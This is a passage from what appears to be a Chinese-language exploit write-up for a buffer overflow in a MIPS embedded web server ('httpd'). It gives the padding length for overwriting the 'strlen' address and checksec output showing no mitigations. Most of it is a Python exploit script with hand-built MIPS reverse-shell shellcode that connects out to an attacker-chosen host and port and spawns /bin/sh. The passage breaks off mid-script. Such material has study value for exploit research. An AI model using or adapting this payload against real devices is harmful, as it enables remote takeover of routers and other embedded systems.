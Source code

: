要填充的长度是0x1000D0F0-0x10001AD8=0xb618=46616，接下来的四个字节覆盖`strlen`函数的地址，实现劫持。

```sh
$ checksec httpd
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

这里在`post_buf`的开头填充`nop`和shellcode，然后将`strlen`函数的地址覆盖成0x10001AD8劫持执行shellcode

```python
import sys
import struct,socket
import urllib2
def makepayload(host,port):
    print '[*] prepare shellcode',
    hosts = struct.unpack('<cccc',struct.pack('<L',host))
    ports = struct.unpack('<cccc',struct.pack('<L',port))
    mipselshell ="\xfa\xff\x0f\x24"   # li t7,-6
    mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
    mipselshell+="\xfd\xff\xe4\x21"   # addi a0,t7,-3
    mipselshell+="\xfd\xff\xe5\x21"   # addi a1,t7,-3
    mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
    mipselshell+="\x57\x10\x02\x24"   # li v0,4183 # sys_socket
    mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
    mipselshell+="\xff\xff\xa2\xaf"   # sw v0,-1(sp)
    mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
    mipselshell+="\xfd\xff\x0f\x34"   # li t7,0xfffd
    mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
    mipselshell+="\xe2\xff\xaf\xaf"   # sw t7,-30(sp)
    mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\x0e\x3c"   # lui t6,0x1f90
    mipselshell+=struct.pack('<2c',ports[1],ports[0]) + "\xce\x35"   # ori t6,t6,0x1f90
    mipselshell+="\xe4\xff\xae\xaf"   # sw t6,-28(sp)
    mipselshell+=struct.pack('<2c',hosts[1],hosts[0]) + "\x0e\x3c"   # lui t6,0x7f01
    mipselshell+=struct.pack('<2c',hosts[3],hosts[2]) + "\xce\x35"   # ori t6,t6,0x101
    mipselshell+="\xe6\xff\xae\xaf"   # sw t6,-26(sp)
    mipselshell+="\xe2\xff\xa5\x27"   # addiu a1,sp,-30
    mipselshell+="\xef\xff\x0c\x24"   # li t4,-17
    mipselshell+="\x27\x30\x80\x01"   # nor a2,t4,zero
    mipselshell+="\x4a\x10\x02\x24"   # li v0,4170  # sys_connect
    mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
    mipselshell+="\xfd\xff\x11\x24"   # li s1,-3
    mipselshell+="\x27\x88\x20\x02"   # nor s1,s1,zero
    mipselshell+="\xff\xff\xa4\x8f"   # lw a0,-1(sp)
    mipselshell+="\x21\x28\x20\x02"   # move a1,s1 # dup2_loop
    mipselshell+="\xdf\x0f\x02\x24"   # li v0,4063 # sys_dup2
    mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
    mipselshell+="\xff\xff\x10\x24"   # li s0,-1
    mipselshell+="\xff\xff\x31\x22"   # addi s1,s1,-1
    mipselshell+="\xfa\xff\x30\x16"   # bne s1,s0,68 <dup2_loop>
    mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
    mipselshell+="\x62\x69\x0f\x3c"   # lui t7,0x2f2f "bi"
    mipselshell+="\x2f\x2f\xef\x35"   # ori t7,t7,0x6269 "//"
    mipselshell+="\xec\xff\xaf\xaf"   # sw t7,-20(sp)
    mipselshell+="\x73\x68\x0e\x3c"   # lui t6,0x6e2f "sh"
    mipselshell+="\x6e\x2f\xce\x35"   # ori t6,t6,0x7368 "n/"
    mipselshell+="\xf0\xff\xae\xaf"   # sw t6,-16(sp)
    mipselshell+="\xf4\xff\xa0\xaf"   # sw zero,-12(sp)
    mipselshell+="\xec\xff\xa4\x27"   # addiu a0,sp,-20
    mipselshell+="\xf8\xff\xa4\xaf"   # sw a0,-8(sp)
    mipselshell+="\xfc\xff\xa0\xaf"   # sw zero,-4(sp)
```